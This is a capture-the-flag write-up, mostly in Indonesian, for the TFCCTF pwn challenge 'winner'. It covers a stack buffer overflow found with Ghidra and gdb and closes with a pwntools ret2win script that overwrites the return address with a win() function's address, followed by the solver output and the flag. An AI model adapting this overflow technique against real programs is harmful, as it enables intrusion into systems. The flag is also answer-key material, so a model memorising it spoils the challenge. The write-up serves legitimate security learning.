 ## winner

![Challenge Picture](./attachments/winner.png)

## Overview & Description

Author : tomadimitrie

Points : 50

You just won a contest! What do you do?

[winner](https://ctf.thefewchosen.com/attachments/1497e223-1f6c-4c28-9fa2-f6e3fdfd61dd.main)

## Hints


## Step by Step

1. Download file ELF yang diberikan, berikut rincian keamanan dalam checksec

![checksec](./attachments/checksec.png)

2. Seperti challenge pwn sebelumnya, program ini membutuhkan libc 2.34, untuk itu kita lakukan patch menggunakan pwninit lagi

![error](./attachments/libcerror.png)

![pwninit](./attachments/pwninit.png)

3. Program tersebut meminta kita untuk memasukkan nama, dikatakan bahwa kita memenangkan sebuah hadiah, dan program meminta input nama

![program](./attachments/program.png)

4. Cek program melalui ghidra dan disassemble function main, namun disini yang membuat mata saya tertuju adalah, function win

![win](./attachments/win_func.png)

5. Jadi, jika kita berhasil men-trigger function tersebut, maka function akan execute flag menggunakan getenv()

6. Jadi saya berpikir bahwa ini vuln ret2win, yang diperlukan adalah offset program dimana program akan terkena segfault, lalu kita tambahkan address win didalam payload

7. Disini saya mencoba meng-inputkan string sebanyak 120, dan terjadi lah segfault, yang menyebabkan rbp (base pointer) terisi dengan 8 bytes dari string tersebut, disini kita bisa memasukkan address win di base pointer

![gdb](./attachments/gdb.png)

8. Langsung saja kita buat scriptnya

```python
#!/usr/bin/env python3

from pwn import *
import struct

server = "01.linux.challenges.ctf.thefewchosen.com"
port = 49640


io = remote(server, port)

payload = b"A" * 120 + struct.pack("<Q", 0x0004011be)

io.sendline(payload)

io.interactive()
```

9. 0x0004011be adalah address dimana function win akan men-trigger getenv(), maka kita tambahkan didalam payload setelah offset ditemukan

![getenvaddr](./attachments/getenv.png)

10. Kita jalankan script tersebut, dan ketemu flagnya

```console
┌──(sh1roneko㉿xvrf)-[~/…/CTF/TFCCTF/pwn/winner]
└─$ python3 solver.py      
[+] Opening connection to 01.linux.challenges.ctf.thefewchosen.com on port 49640: Done
[*] Switching to interactive mode
Congratulations! You have just won a contest! Input your name to claim your prize: 
TFCCTF{C0ngr4tulati0n5_0n_th3_pr1z3!}Congratulations! You have just won a contest! Input your name to claim your prize: 
[*] Got EOF while reading in interactive
$  
```


## Flag

`TFCCTF{C0ngr4tulati0n5_0n_th3_pr1z3!}`
